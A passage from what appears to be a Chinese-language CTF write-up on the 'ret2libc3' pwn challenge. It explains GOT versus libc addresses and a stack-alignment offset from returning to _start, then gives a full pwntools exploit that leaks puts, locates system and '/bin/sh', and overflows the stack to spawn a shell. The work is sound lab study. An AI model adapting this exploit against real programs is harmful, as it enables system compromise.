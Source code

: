 然后这个我踩过两个坑:

1)got地址及libc中的真实地址之间的关系.

got表里存放了libc函数的真实地址,而got地址是指的got的某一个空间的地址.这某一个空间里存放着我们要的真实地址.

2)第二次溢出的数据为104个字符.一次运行main时栈大小有108,而第二次栈大小只有有100多.

第一次:

![image-20200916092210173](image-20200916092210173.png)

第二次:

![image-20200916092338372](image-20200916092338372.png)

然后看下dl在wiki的留言:

> 发现start函数有一句and esp, 0FFFFFFF0h进行了堆栈平衡，可以自己写个demo试一下，在and语句之前，esp的值是0xffffade8，而经过and之后，esp的值就变为了0xffffade0。所以问题就出在 _start函数的and语句，要是直接返回main函数就相当于少了一个and操作，esp的位置也就多了8。（栈的内存增长相反，即栈空间少了8）

像是因为_start函数做了堆栈平衡,然我们第二次调用main没有做.所以esp多了8.

![image-20200916101954834](image-20200916101954834.png)

于是改exp:

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
import pwnlib

context.terminal = ['tmux', 'splitw', '-h']
sh = process('./ret2libc3')
gdb.attach(sh)
ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
puts_got = ret2libc3.got['puts']
main = ret2libc3.symbols['_start']

print "leak puts_got addr and return to main again"
payload = 'a' * 112+ p32(puts_plt)+p32(main)+p32( puts_got)
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
puts_addr = u32(sh.recv()[0:4])
print 'puts_addr:'+hex(puts_addr)
print 'puts_got:'+hex(puts_got)
print 'puts_plt:'+hex(puts_plt)
libc = LibcSearcher('puts', puts_addr)
libcbase = puts_addr - libc.dump('puts')

system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"

payload='a'*104+'abcdefgh'+p32(system_addr)+p32(0)+p32(binsh_addr)
sh.sendline(payload)

sh.interactive()
```
